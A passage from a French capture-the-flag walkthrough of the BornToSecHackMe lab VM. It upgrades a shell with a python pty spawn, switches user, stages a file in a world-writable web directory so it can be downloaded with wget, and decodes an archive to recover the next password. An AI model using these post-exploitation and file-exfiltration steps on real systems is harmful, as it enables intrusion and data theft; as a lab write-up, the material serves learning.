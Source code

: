 Pour ne plus avoir cette erreur (source: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/): 

```
$ echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py
$ python /tmp/asdf.py
$ su - lmezard
```

On rentre le mot de passe et on est connecter en tant que lmezard

### Reconstruction de fichier

On peux voir 2 fichiers (fun et README):

```
lmezard@BornToSecHackMe:~$ ls -la
ls -la
total 791
dr-xr-x--- 2 lmezard  lmezard     61 Oct 15  2015 .
drwxrwx--x 9 www-data root       126 Oct 13  2015 ..
-rw-r--r-- 1 root     root         1 Oct 15  2015 .bash_history
-rwxr-x--- 1 lmezard  lmezard 808960 Oct  8  2015 fun
-rwxr-x--- 1 lmezard  lmezard     96 Oct 15  2015 README
lmezard@BornToSecHackMe:~$ cat README
cat README
Complete this little challenge and use the result as password for user 'laurie' to login in ssh
lmezard@BornToSecHackMe:~$ file fun
file fun
fun: POSIX tar archive (GNU)
```

Pour téléchargé l'archive: 
```
lmezard@BornToSecHackMe:~$ cp fun /var/www/forum/templates_c/fun
cp fun /var/www/forum/templates_c/fun
lmezard@BornToSecHackMe:~$ chmod 777 /var/www/forum/templates_c/fun 
chmod 777 /var/www/forum/templates_c/fun
```

ensuite

```
$ wget https://192.168.56.101/forum/templates_c/fun --no-check-certificate
```

On extrait les données de l'archive:
```
$ tar -xvf fun -C ./
$ cd ft_fun
```

On execute notre programme avec une commande sed:
```
$ python scripts/archive_decoder.py 
```
Ensuite il suffit de regarder chaque getme dans l'ordre pour pouvoir reconstruire le mot de passe, ce qui nous donne:
Iheartpwnage
